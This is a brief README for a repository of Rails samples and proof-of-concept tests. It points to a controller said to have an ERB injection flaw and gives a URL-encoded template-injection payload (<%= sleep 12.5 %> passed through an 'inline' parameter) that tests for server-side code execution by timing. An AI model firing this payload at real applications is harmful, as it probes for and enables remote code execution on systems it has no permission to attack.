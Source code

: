 # railstestmachine
contains all sample and tut of rails , it may contains test PoC

# Rails Sample/PoC
~/workspace/PoC/app/app/controllers/book_controller.rb ->  basic

## :~/workspace/PoC/app/app/controllers -> #ERB injection here
    
    url: http://target/shit?t=payload_here
    Payload: shit?t[inline]=<%25%3D%20sleep%2012.5%20%25>

